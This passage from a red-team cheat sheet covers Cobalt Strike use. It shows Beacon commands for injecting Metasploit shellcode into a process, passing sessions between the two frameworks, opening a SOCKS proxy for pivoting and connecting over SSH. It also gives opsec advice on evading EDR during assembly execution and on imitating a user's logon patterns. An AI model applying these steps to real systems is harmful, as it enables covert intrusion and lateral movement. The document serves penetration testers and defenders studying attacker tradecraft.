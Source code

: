 ## Copy bin file to cobalt strike host
ps
shinject <pid> x64 C:\Payloads\msf.bin #Inject metasploit shellcode in a x64 process

# Pass metasploit session to cobalt strike
## Fenerate stageless Beacon shellcode, go to Attacks > Packages > Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.
## Use post/windows/manage/shellcode_inject in metasploit to inject the generated cobalt srike shellcode


# Pivoting
## Open a socks proxy in the teamserver
beacon> socks 1080

# SSH connection
beacon> ssh 10.10.17.12:22 username password</code></pre>

## Opsec

### Execute-Assembly

The **`execute-assembly`** uses a **sacrificial process** using remote process injection to execute the indicated program. This is very noisy as to inject inside a process certain Win APIs are used that every EDR is checking. However, there are some custom tools that can be used to load something in the same process:

- [https://github.com/anthemtotheego/InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly)
- [https://github.com/kyleavery/inject-assembly](https://github.com/kyleavery/inject-assembly)
- In Cobalt Strike you can also use BOF (Beacon Object Files): [https://github.com/CCob/BOF.NET](https://github.com/CCob/BOF.NET)
- [https://github.com/kyleavery/inject-assembly](https://github.com/kyleavery/inject-assembly)

The agressor script `https://github.com/outflanknl/HelpColor` will create the `helpx` command in Cobalt Strike which will put colors in commands indicating if they are BOFs (green), if they are Frok&Run (yellow) and similar, or if they are ProcessExecution, injection or similar (red). Which helps to know which commands are more stealthy.

### Act as the user

You could check events like `Seatbelt.exe LogonEvents ExplicitLogonEvents PoweredOnEvents`: 

- Security EID 4624 - Check all the interactive logons to know the usual operating hours.
- System EID 12,13 - Check the shutdown/startup/sleep frequency.
- Security EID 4624/4625 - Check inbound valid/invalid NTLM attempts.
- Security EID 4648 - This event is created when plaintext credentials are used to logon. If a process generated it, the binary potentially has the credentials in clear text ina  config file or inside the code.
